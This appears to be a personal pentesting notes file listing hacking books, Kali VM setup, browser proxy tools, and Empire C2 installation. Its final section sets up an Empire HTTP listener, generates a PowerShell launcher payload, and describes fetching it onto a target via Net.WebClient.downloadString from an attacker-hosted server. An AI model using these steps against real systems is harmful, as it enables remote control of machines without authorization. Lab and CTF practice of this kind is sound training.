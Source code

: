 # To read

- Kali Revealed
- The Hacker Playbook 2
- No Starch Metasploit
- Smashing The Stack For Fun And Profit
- The Shellcoder’s Handbook
- Violent Python
- The Web Application Hacker's Handbook

## Kali on VirtualBox
```
apt-get upgrade
apt-get dist-upgrade
```
### Install Guest Additions:
Edit /etc/fstab:
```
/dev/sr0    /media/cdrom0    udf,iso9660    user,noauto         0    0 # Old:
/dev/sr0    /media/cdrom0    udf,iso9660    user,noauto,exec    0    0 # New:
```
- Top bar > Devices > Insert Guest Additions.
- Take a snapshot of the VM

# Tools

## Chrome
Browse to `chrome://net-internals` in the search bar

## Firefox ESR + FoxyProxy + Burps
Install version 4.6.5 that can run on Firefox ESR v52.5.0 (32-bit) using it with Burp v1.7.27
Install Firefox Cookies manager: https://addons.mozilla.org/en-GB/firefox/addon/cookies-manager-plus/ (It gets installed under `Tools` )

## Empire
[Empire github](https://github.com/EmpireProject/Empire/tree/dev)
### Setup
```
git clone https://github.com/EmpireProject/Empire -b dev # Clone the dev branch
cd Empire/setup
./install/sh
./empire.sh
```
### Usage
```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.22:443
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher powershell http # this generates the payload
```
Copy the payload output and paste it into a file that you'll serve with `SimpleHTTPServer` and get from the box using `Net.WebClient.downloadString` for example.

